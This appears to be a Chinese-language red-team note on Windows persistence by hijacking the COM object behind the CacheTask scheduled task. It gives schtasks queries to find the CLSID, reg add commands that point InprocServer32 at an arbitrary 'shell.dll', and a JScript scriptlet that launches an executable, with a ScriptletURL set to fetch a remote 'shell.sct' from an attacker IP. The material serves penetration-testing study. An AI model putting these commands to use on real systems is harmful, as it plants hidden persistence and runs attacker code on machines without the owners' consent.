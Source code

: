 ```powershell
schtasks /query /FO list | findstr "CacheTask"

# 获取 CLSID
schtasks /query /XML /TN "\Microsoft\Windows\Wininet\CacheTask"
schtasks /query /XML /TN "\Microsoft\Windows\CertificateServicesClient\UserTask"

```

#### InprocServer32

“ **InprocServer32** ”（进程内服务器）注册表项指示 COM 库位于磁盘上的位置并定义线程模型

为 "CacheTask" 重新创建注册表项结构并指向任意 DLL：上传DLL；设置子键“ **InprocServer32** ”指向 DLL 的位置

由于“ **CacheTask** ”默认在登录期间启动，因此任何用户代码都将在登录期间永久执行（持久性）

```cmd
# Usage
HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{CLSID}\InProcServer32

HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{0358b920-0ac7-461f-98f4-58e32cd89148}\InProcServer32

# Windows 7 需要 Administrator 权限 ；Windows 10 需要 TrustedInstaller 权限
reg add HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{CLSID}\InProcServer32 /v "" /t REG_SZ /d "<path to dll>" /f

reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{0358b920-0ac7-461f-98f4-58e32cd89148}\InProcServer32" /v "" /t REG_SZ /d "c:\shell.dll" /f
```

“ **ScriptletURL** ”注册表项定义了调用 COM 类时将获取并执行的任意 .sct 文件的远程位置，执行无文件持久化

```scriptlet
<?XML version="1.0"?>
<scriptlet>
 
<registration
    description="Pentest.Lab"
    progid="Pentest.Lab"
    version="1"
    classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"
    remotable="true"
    >
</registration>
 
<script language="JScript">
<![CDATA[
 
        var r = new ActiveXObject("WScript.Shell").Run("pentestlab.exe");
     
     
]]>
</script>
 
</scriptlet>

# Usage
键值设置为：http://IP/shell.sct
```
